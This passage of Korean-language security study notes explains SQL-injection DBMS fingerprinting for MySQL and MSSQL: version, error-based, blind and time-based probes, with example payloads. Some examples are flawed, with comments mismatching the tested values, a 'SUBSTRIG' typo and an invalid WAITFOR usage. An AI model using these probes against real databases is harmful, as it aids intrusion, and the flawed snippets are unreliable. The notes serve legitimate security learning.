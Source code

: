            SELECT MID(@@version, 1, 1) = '5'; -- @@version의 첫 번째 문자가 4인지 확인 → 1(True)
            SELECT MID(@@version, 1, 1) = '6'; -- @@version의 첫 번째 문자가 5인지 확인 → 0(False)
            ```
    - 예외 상황: *Time based*
        + 애플리케이션에서 쿼리 실행 결과를 반환하지 않을 때 ```SLEEP``` 함수를 사용하여 시간 지연 발생 여부로 그 결과를 알아낼 수 있음
            ```sql
            -- MID(@@version, 1, 1) → version 환경 변수의 첫 번째 문자: '5'
            SELECT MID(@@version, 1, 1) = '5' AND SLEEP(2); -- AND 앞의 식이 참이므로 SLEEP(2)가 실행되어 2초 지연됨 (시간 지연 밸생)
            SELECT MID(@@version, 1, 1) = '6' AND SLEEP(2); -- AND 앞의 식이 거짓이므로 뒤의 식도 실행되지 않음 (시간 지연 미발생) 
            ```

<br/>

* DBMS Fingerprinting: **MSSQL**
    - 쿼리 실행 결과 출력: *version*
        + ```@@version```(환경변수)를 이용해 DBMS의 버전과 운영체제 정보를 알아낼 수 있음
            ```sql
            SELECT @@version;
            /* 출력 결과 예시
                Microsoft SQL Server 2017 (RTM-CU13) (KB4466404) - 14.0.3048.4 (X64) → 사용하고 있는 DBMS의 종류와 버전
                    Nov 30 2018 12:57:58 
                    Copyright (C) 2017 Microsoft Corporation
                    Developer Edition (64-bit) on Linux (Ubuntu 16.04.5 LTS) → 현재 DBMS가 운영되고 있는 운영체제의 정보
            */
            ```
    - 에러 메시지 출력: *error*
        + ```UNION``` 문으로 에러 메시지를 출력한 다음, 에러 메시지에 포함된 키워드로 MSSQL에서 출력된 문자열임을 알 수 있음
            ```sql
            SELECT 1 UNION SELECT 1, 2; -- UNION문의 컬럼 개수가 일치하지 않으면 에러를 발생시킨다는 점을 이용함
            /* 출력 결과 예시
                All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.asdf
            */
            ```
    - 참 또는 거짓 출력: *Blind*
        + ```@@version```(환경변수)에서 가져온 버전의 각 위치에 해당하는 문자를 ```SUBSTRING``` 함수를 통해 Blind SQL Injection으로 알아낼 수 있음
            ```sql
            -- @@version의 내용: 'Microsoft SQL Server 2017 ...'
            -- SUBSTRIG(@@version, 1, 1) → version 환경변수의 첫 번째 문자 = 'M'

            SELECT 1 FROM test WHERE SUBSTRING(@@version, 1, 1) = 'M'; -- @@version의 첫 번째 문자가 'M'인지 확인 → 1을 출력함 (True)
            SELECT 1 FROM test WHERE SUBSTRING(@@version, 1, 1) = 'N'; -- @@version의 첫 번째 문자가 'N'인지 확인 → 아무것도 출력하지 않음 (False)
            ```
    - 예외 상황: *Time based*
        + 애플리케이션에서 쿼리 실행 결과를 반환하지 않을 때 ```WAITFOR DELAY```를 사용하여 시간 지연 발생 여부로 그 결과를 알아낼 수 있음
            ```sql
            -- SUBSTRIG(@@version, 1, 1) → version 환경변수의 첫 번째 문자 = 'M'
            
            SELECT 1 FROM test WHERE SUBSTRING(@@version, 1, 1) = 'M' AND WAITFOR DELAY '0:0:5'; -- AND 앞의 식이 참이므로 WAITFOR DELAY가 실행되어 5초 지연됨
            SELECT 1 FROM test WHERE SUBSTRING(@@version, 1, 1) = 'N' AND WAITFOR DELAY '0:0:5'; -- AND 앞의 식이 거짓이므로 WAITFOR DELAY는 실행되지 않음 (지연 미발생)
            ```
        + 헤비 쿼리를 이용할 수도 있음
            ```sql
            SELECT (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C, information_schema.columns D, information_schema.columns E, information_schema.columns F);
            ```
